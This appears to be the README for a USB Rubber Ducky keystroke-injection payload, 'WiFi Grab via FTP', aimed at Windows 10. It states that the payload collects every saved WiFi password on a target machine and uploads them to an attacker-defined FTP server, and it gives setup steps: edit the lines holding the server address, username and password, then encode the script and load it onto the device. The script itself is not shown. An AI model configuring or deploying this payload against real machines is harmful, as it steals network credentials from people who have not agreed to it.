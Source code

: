 -----------------------------------------------------
# Rubber Ducky WiFI Grab and Upload via FTP


REM Title:         WiFi Grab via FTP

REM Description    Will grab all WiFi passwords the device has and upload them to an ftp server defined in the payload.

REM Author:        FX17

REM Version:       1.0

REM Target:        Windows 10

REM Attackmodes:   HID

—————————————————————————————————————————————————

Be sure to edit the .txt file lines 96, 99 and 102.

For example the script should look like:

96: `STRING 192.168.0.69 21`

99: `STRING FX17`

102: `STRING SecurePassword123!`


After these changes encode the script and upload to your ducky!

If you have any issues running this script, please contact me via discord: @Keiran1712

-----------------------------------------------------
